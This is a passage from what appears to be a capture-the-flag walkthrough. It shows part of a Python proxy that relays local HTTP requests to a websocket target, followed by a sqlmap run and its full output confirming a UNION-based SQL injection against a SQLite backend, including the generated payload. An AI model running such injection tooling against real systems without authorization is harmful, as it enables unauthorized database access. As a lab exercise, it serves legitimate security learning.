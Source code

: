 ```py

            if ws_resp:
                self.send_response(200)
                self.send_header('Content-type', 'text/html')
                self.end_headers()
                self.wfile.write(ws_resp.encode())
            else:
                self.send_response(500)
                self.send_header('Content-type', 'text/html')
                self.end_headers()
            return

if __name__ == '__main__':
    httpd = HTTPServer(('127.0.0.1', 8080), SimpleHTTPRequestHandler)
    print("[+] Server started on 127.0.0.1:8080")
    httpd.debug = False
    httpd.serve_forever()
```

And with the prior knowledge of the sql injection, we can narrow down the sqlmap execution.
```bash
❯ sqlmap -u "http://127.0.0.1:8080/forward" -H "Content-Type: application/json" --data '{"payload": "*"}' --batch --technique=U --dbms=sqlite --prefix='"' --union-cols=4
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:37:34 /2023-03-26/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[15:37:35] [INFO] testing connection to the target URL
[15:37:36] [WARNING] turning off pre-connect mechanism because of incompatible server ('BaseHTTP/0.6 Python/3.11.2')
[15:37:36] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[15:37:37] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON #1*' might not be injectable
[15:37:39] [INFO] testing for SQL injection on (custom) POST parameter 'JSON #1*'
[15:37:39] [INFO] testing 'Generic UNION query (NULL) - 4 to 4 columns (custom)'
[15:37:42] [INFO] (custom) POST parameter 'JSON #1*' is 'Generic UNION query (NULL) - 4 to 4 columns (custom)' injectable
[15:37:42] [INFO] checking if the injection point on (custom) POST parameter 'JSON #1*' is a false positive
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 8 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns (custom)
    Payload: {"payload": "" UNION ALL SELECT NULL,NULL,NULL,CHAR(113,122,98,120,113)||CHAR(102,116,116,87,78,120,86,107,107,103,118,77,68,119,111,119,66,119,85,77,76,81,68,89,98,108,90,66,108,69,106,72,97,69,82,83,70,108,116,103)||CHAR(113,107,98,122,113)-- KVcK"}
---
[15:37:51] [INFO] testing SQLite
[15:37:52] [INFO] confirming SQLite
```